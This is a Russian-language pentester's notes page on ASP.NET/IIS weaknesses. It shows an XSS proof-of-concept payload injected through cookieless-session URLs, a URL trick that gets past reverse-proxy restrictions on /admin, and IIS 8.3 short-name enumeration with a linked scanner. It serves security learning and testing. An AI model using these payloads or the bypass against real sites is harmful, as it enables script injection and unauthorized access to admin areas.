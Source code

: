 # Security

## ASP.NET / IIS Security

{% file src="../../../.gitbook/assets/V.Kochetkov_breaking_ASP.NET.pdf" %}

## Notes

### Cookieless session

Источник: [https://t.me/webpwn/302](https://t.me/webpwn/302)

В ASP.NET есть удобная олдскульная фича - cookieless session. Она осталась ещё с тех времён, когда куки поддерживались не всеми браузерами и сессию приходилось передавать внутри URL.

Например:

```
http://www.example.com/(S(lit3py55t21z5v55vlm25s55))/default.aspx
```

При использовании Control.ResolveUrl метода, это значение может выводится без корректного энкодинга символов, что может давать нам XSS-ку:

```
<script src="<%= ResolveUrl("~/Script.js") %>"></script> 
+
http://example.com/(A(%22onerror=%22alert`1`%22))/default.aspx

 ->

 <script src="/(A("onerror="alert`1"))/Script.js"></script>

```

Более подробно об этой особенности и эксплуатации можно почитать [ТУТ](https://blog.isec.pl/all-is-xss-that-comes-to-the-net/)

Кроме того, эту фичу можно использовать для обхода ограничений на реверс прокси к админке приложения бэкэнда (всё что начинается с “/admin”), например:

```
http://victim.com/admin - 403
http://victim.com/(A(ABCD))/admin - 200
```

### Short Names (8.3 convention; Tricks with \~1 in Windows)

Если знаем первые 6 символов директории или файла, то оставшуюся можем заменить на `~1`

![](<../../../.gitbook/assets/изображение (1).png>)

Сканер для IIS: [https://github.com/irsdl/iis-shortname-scanner](https://github.com/irsdl/iis-shortname-scanner)

